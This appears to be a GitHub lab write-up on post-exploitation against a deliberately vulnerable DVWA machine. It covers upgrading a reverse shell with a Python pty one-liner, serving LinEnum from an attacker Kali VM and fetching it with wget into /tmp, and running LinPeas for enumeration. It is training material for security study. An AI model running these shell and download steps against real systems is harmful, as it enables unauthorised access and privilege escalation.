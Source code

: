 # Post Exploitation and Privilege Escalation:

At this stage trying to execute a command using the sudo keyword gives us the following:

![Screen Shot 2022-04-25 at 13 28 35](https://user-images.githubusercontent.com/18306338/165151242-b36a820b-e655-4dbc-9588-98a840e50e3c.png)

The "no tty present on askpass program specified" message indicates we are not an user with sudo privileges.

In order to do an upgrade of our shell we need to resort to a python library called 'pty', which spawns a tty shell for us.

![Screen Shot 2022-04-25 at 13 35 11](https://user-images.githubusercontent.com/18306338/165151353-1a958504-d817-401b-b5e6-83516e97fa48.png)

https://netsec.ws/?p=337 - the following link gives quite a few options to spawn a tty shell using different scripting languages.

After executing the python -c 'import pty; pty.spawn("/bin/sh")' command we now see a different output when we execute sudo -l in our terminal.

![Screen Shot 2022-04-25 at 13 36 25](https://user-images.githubusercontent.com/18306338/165151424-a53572c9-4704-4850-9c9c-df2c44c1eaaa.png)

The first stage of 'upgrading' our terminal in now complete.

Next step is to enumerate the machine and get information about running processes/cron jobs/sudo users etc.
In order to achieve that we will use a tool called LinEnum.

First thing we need to do is download the git repo to our machine

![Screen Shot 2022-04-25 at 14 17 17](https://user-images.githubusercontent.com/18306338/165151715-c401f17e-d32c-46c4-ae77-be07ad76da45.png)

We can see the .sh file that we need to execute.

In order to execute the bash script file onto the DVWA machine we need to serve this file on a server, which will make the file accessible on the dvwa machine through the wget tool . For that purpose we use python http.server package.

We start the python server

<img width="728" alt="Screen Shot 2022-04-25 at 14 21 26" src="https://user-images.githubusercontent.com/18306338/165152343-e6744472-68a7-4538-9cfd-3fff18cc96e9.png">

Then we obtain the ip address of our Kali VM

![Screen Shot 2022-04-25 at 14 27 52](https://user-images.githubusercontent.com/18306338/165152506-6eaec5ff-e0de-4c96-994c-f6a8de87b404.png)

After we have the python server running and the ip address we navigate to the reversed shell and run ls -la command to see where we have write access.

After entering the tmp folder we use wget to get the http:\\10.0.2.15:8000\LinEnum\LinEmun.sh file

![Screen Shot 2022-04-25 at 14 36 34](https://user-images.githubusercontent.com/18306338/165152577-99ebd22b-f22a-4db7-bd0d-645919e978d5.png)

Initially trying to run the LinEmun.sh script yields a "Permission denied error". This is usually due to the fact that the file in place is missing the executable right and once added the script runs and we gather information for the DVWA machine.

<img width="765" alt="Screen Shot 2022-04-25 at 14 40 53" src="https://user-images.githubusercontent.com/18306338/165153030-c7ffb42f-7174-46a1-a140-4fc7217300f8.png">

## What is DVWA vulnerable to?

In order to evaluate what DVWA is vulnerable to we use the same approach with another tool called LinPeas.

![Screen Shot 2022-04-25 at 22 07 28](https://user-images.githubusercontent.com/18306338/165157946-8f0be395-ea00-4c57-9b6c-5d29ae6d6cd9.png)

and then in the DVWA reverse shell 

![Screen Shot 2022-04-25 at 22 06 29](https://user-images.githubusercontent.com/18306338/165157988-adab9b74-3729-4dec-ab07-1e1314664351.png)


## What are the most probable exploits? (try using Linux exploit suggester)

## Check the most probable vulnerabilities

## Extra Mile: Try to exploit the machine using the most probable vulnerabilities
